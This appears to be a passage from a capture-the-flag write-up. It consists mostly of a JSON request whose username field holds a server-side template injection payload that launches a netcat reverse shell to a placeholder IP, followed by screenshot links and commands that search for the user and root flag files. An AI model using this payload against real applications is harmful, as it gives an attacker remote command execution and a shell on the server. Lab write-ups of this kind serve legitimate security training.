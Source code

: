 ```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 4444 >/tmp/f').read() }}"}
```

![reverse-shell-20.png](Screens/reverse-shell-20.png)

![reverse-shell-19.png](Screens/reverse-shell-19.png)

![reverse-shell-21.png](Screens/reverse-shell-21.png)

```sh
find . -name user.txt
```

```sh
find ~ -name root.txt
```

![reverse-shell-22.png](Screens/reverse-shell-22.png)
